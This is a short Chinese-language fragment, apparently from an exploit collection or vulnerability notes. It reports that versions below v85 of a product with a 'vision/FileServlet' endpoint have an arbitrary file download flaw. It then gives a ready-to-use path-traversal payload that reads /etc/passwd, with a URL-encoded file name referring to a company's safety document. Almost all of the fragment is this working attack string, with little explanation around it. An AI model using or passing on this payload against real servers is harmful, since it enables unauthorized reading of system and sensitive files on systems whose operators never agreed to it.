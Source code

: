 ```
```
### 其他漏洞
在v85以下还可能存在任意文件下载漏洞，payload如下
```
vision/FileServlet?ftpType=out&path=upload/../../../../../../../../../../etc/passwd&name=%E4%B8%AD%E5%9B%BD%E7%9F%B3%E6%B2%B9%E5%90%89%E6%9E%97%E7%99%BD%E5%9F%8E%E9%94%80%E5%94%AE%E5%88%86%E5%85%AC%E5%8F%B8XX%E5%8A%A0%E6%B2%B9%E7%AB%99%E9%98%B2%E9%9B%B7%E5%AE%89%E5%85%A8%E5%BA%94%E6%80%A5%E9%A2%84%E6%A1%88.docx
```
